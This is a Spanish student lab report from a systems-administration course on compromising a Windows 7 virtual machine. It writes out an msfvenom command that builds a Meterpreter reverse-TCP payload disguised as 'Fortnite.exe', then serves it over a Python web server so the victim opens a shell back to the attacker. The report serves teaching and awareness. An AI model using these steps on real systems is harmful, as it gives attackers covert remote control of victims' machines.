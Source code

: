 <center>

# HACKEO DE WINDOWS 7 CON TCP REVERSE


</center>

***Nombre:*** Nahuel Ivan Troisi
<br>
***Curso:*** 2º de Ciclo Superior de Administración de Sistemas Informáticos en Red.

### ÍNDICE

+ [Introducción](#id1)
+ [Objetivos](#id2)
+ [Material empleado](#id3)
+ [Desarrollo](#id4)
+ [Conclusiones](#id5)


#### ***Introducción***. <a name="id1"></a>

En esta práctica vamos a conseguir acceso a la víctima mediante una aplicación maliciosa.

#### ***Objetivos***. <a name="id2"></a>

Conseguir acceso a la MV.

#### ***Material empleado***. <a name="id3"></a>

Se ha empleado una MV de Kali Linux como atacante y otra de Windows 7 como víctima. 

#### ***Desarrollo***. <a name="id4"></a>

En primer lugar, vamos a crear un archivo malicioso con extensión ***.exe***, el cual será valido para nuestra víctima, cuyo sistema es Windows. Para ello, haremos uso de ***msfvenom***, introduciendo el comando siguiente.

~~~
msfvenom -p windows/meterpreter/reverse_tcp --platform
windows -a x86 -f exe LHOST=172.19.99.143 LPORT=444 -o
$HOME/Fortnite.exe
~~~

![](img/1.png)

De esta manera, vamos a crear un archivo malicioso en nuestra máquina Kali, cuyo nombre será ***Fortnite.exe***, pero podemos establecer cualquier otro.

Una vez realizado este proceso, vamos a usar ***handler*** mediante ***Metaesploit***, donde vamos a definir la IP y el puerto por el que vamos a cargar el ***Payload***.

![](img/3.png)

Posteriormente, vamos a realizar el exploit, el cual va a crear el archivo malicioso en nuestro directorio ***/home***. 

![](img/4.png)

![](img/5.png)

En este punto, necesitamos colar este archivo generado en la MV de Windows de forma remota. La forma más efectiva y rápida es crear un pequeño servidor web en el directorio en el que se encuentra dicho archivo mediante el uso del comando siguiente.

~~~
python3 -m http.server
~~~

![](img/6.png)

De esta manera, podremos descargar el archivo si introducimos la IP de la máquina atacanate seguido del puerto, que por defecto es el 8000. 

~~~
172.19.99.143:8000
~~~

Si realizamos este proceso, podremos ver todos los archivos que se han cargado en el servidor, donde deberemos descargar el archivo ***Fortnite.exe***. 

![](img/7.png)

![](img/8.png)

Una vez descargado, vamos a proceder a ejecutarlo. 

![](img/9.png)

Lo que nos devolverá una sesión de ***meterpreter***, la cual nos dará acceso al sistema. 

![](img/10.png)

#### ***Conclusiones***. <a name="id5"></a>

Es una práctica bastante útil, ya que nos sirve para concienciarnos de que hay muchas aplicaciones maliciosas que se hacen pasar por las aplicaciones originales, dando acceso al atacante sin que nosotros lo sepamos. Es por ello que hay que tener mucho cuidado con los sitios webs de donde descargamos nuestras aplicacioees.
